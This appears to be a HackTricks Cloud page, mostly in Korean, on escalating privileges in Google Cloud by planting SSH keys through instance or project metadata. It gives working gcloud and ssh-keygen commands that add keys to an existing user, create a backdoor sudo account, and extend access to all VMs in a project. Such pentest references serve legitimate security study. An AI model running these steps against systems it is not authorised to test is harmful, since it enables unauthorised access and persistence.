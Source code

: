 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 얻을 경우 상당한 보안 위험을 초래할 수 있습니다**.

#### **SSH 키를 사용자 정의 메타데이터에 통합하기**

GCP에서 **Linux 시스템**은 종종 [Google Compute Engine용 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이의 중요한 구성 요소는 **정기적으로** 인스턴스 메타데이터 엔드포인트를 확인하여 **허가된 SSH 공개 키의 업데이트**를 확인하는 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)입니다.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 그는 데몬이 새로운 공개 키를 찾도록 만들 수 있으며, 이는 처리되어 **로컬 시스템에 통합됩니다**. 키는 **기존 사용자**의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 `sudo` 권한이 있는 새로운 사용자가 생성될 수 있습니다. 그리고 공격자는 호스트를 손상시킬 수 있습니다.

#### **기존 권한 있는 사용자에게 SSH 키 추가하기**

1. **인스턴스의 기존 SSH 키 검사:**
*   인스턴스와 그 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래, 특히 `ssh-keys` 키에 있습니다.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH 키의 형식에 주의하십시오: 사용자 이름은 키 앞에 위치하며, 콜론으로 구분됩니다.
2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
* 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 기존 키를 보존하면서 새로운 키를 추가하는 데 필수적입니다.
3. **대상 사용자(`alice` 예시)의 새로운 SSH 키 생성:**
*   `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하고, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 새로운 공개 키를 `meta.txt`에 추가하고, 인스턴스의 메타데이터에서 찾은 형식을 모방합니다.
4. **인스턴스의 SSH 키 메타데이터 업데이트:**
*   `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **새로운 SSH 키를 사용하여 인스턴스에 접근:**
*   새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 컨텍스트에서 셸에 접근합니다.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **새로운 권한 있는 사용자 생성 및 SSH 키 추가하기**

흥미로운 사용자가 발견되지 않으면, `sudo` 권한이 부여된 새로운 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### 프로젝트 수준의 SSH 키 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에서 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 넓힐 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 모든 인스턴스에 SSH 액세스를 허용합니다. 요약 가이드는 다음과 같습니다:

1. **프로젝트 수준에서 SSH 키 적용:**
*   `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`의 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않는 한, SSH 키가 프로젝트의 모든 VM에서 인식되도록 보장합니다.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
* 프로젝트 전체 SSH 키가 설정되면, 프로젝트 내의 모든 인스턴스에 SSH 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않는 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
* 인스턴스에 SSH 접속하는 직접적인 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

